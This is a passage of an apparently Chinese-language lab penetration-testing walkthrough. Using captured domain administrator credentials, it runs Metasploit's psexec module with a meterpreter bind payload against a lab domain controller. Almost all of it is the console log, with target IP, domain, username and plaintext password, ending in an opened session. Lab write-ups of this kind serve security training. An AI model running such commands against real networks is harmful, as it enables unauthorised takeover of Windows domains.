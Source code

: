 之前抓到了域管理的账号密码所以直接使用exploit/windows/smb/psexec模块拿下域控服务器，且是管理员权限

```shell
msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOSTS                192.168.52.138                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                                yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                 ADMIN$                                                             yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             GOD                                                                no        The Windows domain to use for authentication
   SMBPass               hongrisec@2021                                                     no        The password for the specified username
   SMBUser               Administrator                                                      no        The username to authenticate as


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.52.138   no        The target address
   
[*] 192.168.52.138:445 - Connecting to the server...
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.138:445-<><>-OK
[*] 192.168.52.138:445 - Authenticating to 192.168.52.138:445 as user 'Administrator'...
[*] 192.168.52.138:445 - Selecting PowerShell target
[*] 192.168.52.138:445 - Executing the payload...
[+] 192.168.52.138:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 192.168.52.138:4445
|S-chain|-<>-127.0.0.1:1024-<><>-192.168.52.138:4445-<><>-OK
[*] Sending stage (206403 bytes) to 192.168.52.138
[*] Meterpreter session 1 opened (127.0.0.1:56358 -> 127.0.0.1:1024) at 2020-04-11 13:16:55 -0400

meterpreter > background 

```

参考
【1】https://www.cnblogs.com/nongchaoer/p/12055317.html
